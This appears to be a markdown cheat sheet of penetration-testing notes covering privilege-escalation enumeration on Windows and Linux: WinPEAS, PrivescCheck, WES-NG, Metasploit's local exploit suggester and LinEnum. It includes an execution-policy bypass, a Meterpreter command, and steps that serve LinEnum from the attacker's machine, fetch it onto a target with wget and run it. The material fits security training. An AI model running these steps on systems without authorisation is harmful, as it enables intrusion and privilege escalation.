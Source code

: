 ### <mark style="background: #FF5582A6;">WinPEAS</mark>:

WinPEAS is a powerful enumeration tool designed to identify potential privilege escalation paths on a target system. It automates the execution of various commands to gather information. The output can be extensive, so it's recommended to redirect it to a file for easier analysis.

- **<mark style="background: #BBFABBA6;">Download WinPEAS</mark>:**
  [WinPEAS GitHub Repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

- **<mark style="background: #BBFABBA6;">Usage</mark>:**
  ```batch
  C:\> winpeas.exe > outputfile.txt
  ```

  The output file contains valuable information about the system, potential vulnerabilities, and paths for privilege escalation.

### <mark style="background: #FF5582A6;">PrivescCheck</mark>:

PrivescCheck is a PowerShell script that serves as an alternative to WinPEAS, providing similar functionality without the need for executing a binary file.

- **<mark style="background: #BBFABBA6;">Download PrivescCheck</mark>:**
  [PrivescCheck GitHub Repository](https://github.com/itm4n/PrivescCheck)

- **<mark style="background: #BBFABBA6;">Usage</mark>:**
  ```powershell
  PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
  PS C:\> . .\PrivescCheck.ps1
  PS C:\> Invoke-PrivescCheck
  ```

  PrivescCheck searches for common privilege escalation vectors and displays relevant information.

### <mark style="background: #FF5582A6;">WES-NG: Windows Exploit Suggester - Next Generation</mark>:

WES-NG is a Python script that assists in identifying missing patches on a target system, potentially leading to vulnerabilities that can be exploited for privilege escalation.

- **<mark style="background: #BBFABBA6;">Download WES-NG</mark>:**
  [WES-NG GitHub Repository](https://github.com/bitsadmin/wesng)

- **<mark style="background: #BBFABBA6;">Usage</mark>:**
  1. Update the database:
     ```bash
     user@kali$ wes.py --update
     ```
  2. Run the script with the systeminfo output file:
     ```bash
     user@kali$ wes.py systeminfo.txt
     ```

### <mark style="background: #FF5582A6;">Metasploit</mark>:

Metasploit, a powerful penetration testing framework, includes modules for local exploit suggestion. If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module.

- **<mark style="background: #BBFABBA6;">Metasploit</mark>:**
  [Metasploit Framework](https://www.metasploitunleashed.com/metasploit-unleashed.html)

- **<mark style="background: #BBFABBA6;">Meterpreter Local Exploit Suggester</mark>:**
  ```bash
  meterpreter > run post/multi/recon/local_exploit_suggester
  ```

  This Metasploit module identifies potential local vulnerabilities that could be exploited for privilege escalation.

### <mark style="background: #FF5582A6;">LinEnum</mark>**

**<mark style="background: #BBFABBA6;">Overview of LinEnum</mark>:**

LinEnum is a powerful bash script meticulously crafted to simplify the process of Linux privilege escalation. Tailored for Linux systems, LinEnum automates the execution of essential commands, presenting a detailed overview of potential vulnerabilities.

**<mark style="background: #BBFABBA6;">Obtaining LinEnum</mark>:**

- **Download Link:** LinEnum is available on its GitHub repository: [LinEnum GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

**<mark style="background: #BBFABBA6;">Transferring LinEnum to the Target Machine</mark>:**

1. **<mark style="background: #D2B3FFA6;">Using Python Web Server</mark>:**

   - Host LinEnum locally: Navigate to the LinEnum directory and initiate a Python web server: `python3 -m http.server 8000`.
   - On the target machine, retrieve LinEnum using `wget`: `wget http://your-local-ip:8000/LinEnum.sh`.
   - Ensure script execution permissions: `chmod +x LinEnum.sh`.

3. **<mark style="background: #D2B3FFA6;">Manual Copy Paste</mark>:**

   - Copy LinEnum code: Open LinEnum locally and copy its content.
   - On the target machine, create a new file using Vi or Nano: `vi LinEnum.sh` or `nano LinEnum.sh`.
   - Paste the copied code, save the file with the ".sh" extension, and grant execution permissions: `chmod +x LinEnum.sh`.

**<mark style="background: #BBFABBA6;">Running LinEnum</mark>:**

- Execute LinEnum as a bash script: `./LinEnum.sh`.